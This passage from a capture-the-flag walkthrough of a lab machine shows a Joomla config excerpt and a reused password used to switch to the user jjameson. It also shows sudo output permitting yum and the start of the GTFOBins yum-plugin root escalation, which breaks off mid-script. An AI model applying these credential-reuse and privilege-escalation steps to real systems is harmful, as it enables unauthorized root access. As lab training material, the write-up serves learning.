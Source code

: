 ```
        public $sef = '1';
        public $sef_rewrite = '0';
        public $sef_suffix = '0';
        public $unicodeslugs = '0';
        public $feed_limit = '10';
        public $feed_email = 'none';
        public $log_path = '/var/www/html/administrator/logs';
        public $tmp_path = '/var/www/html/tmp';
        public $lifetime = '15';
        public $session_handler = 'database';
        public $shared_session = '0';
```

Maybe jjameson use the same pass for system (and maybe ssh too...)

`jjameson : nv5uz9r3ZEDzVjNu`

```
su jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle html]$
```

now we are good
`cat user.txt`

## Privilege Escalation

further privileges are required...let's evolve again

```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
(ALL) NOPASSWD: /usr/bin/yum
```

Ah yes..the description said something about yum..let's ask gtfobins real quick

He said this:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
```